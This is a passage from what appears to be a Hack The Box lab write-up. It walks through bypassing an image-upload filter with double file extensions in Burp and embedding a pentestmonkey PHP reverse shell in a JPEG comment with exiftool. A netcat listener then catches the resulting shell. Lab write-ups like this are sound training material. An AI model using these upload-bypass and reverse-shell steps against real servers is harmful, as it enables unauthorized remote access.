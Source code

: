 Add `.php` as a second extension to the jpg file like so: `user2-160x160.php.jpg` and forward the request.  

We see that reverse shell is possible >

<img src='/images/HTB_Usage/Screenshot 2024-05-22 102708.png'>

Now we try to reverse shell the same way > 

Download a reverse-shell script > https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Change this to your own ip and a port you like > 

<pre>
$ip = '127.0.0.1';  // CHANGE THIS 
$port = 4444;       // CHANGE THIS 
</pre>

Put the `reverse_shell.php` file in the image like so > 

`exiftool "-comment<=reverse_shell.php" payload.jpg`

Now start a netcat listener > `nc -v -n -l -p 4444`

Upload the file again and intercept the submit request with burp and add .php> `payload.jpg.php` and forward the request.
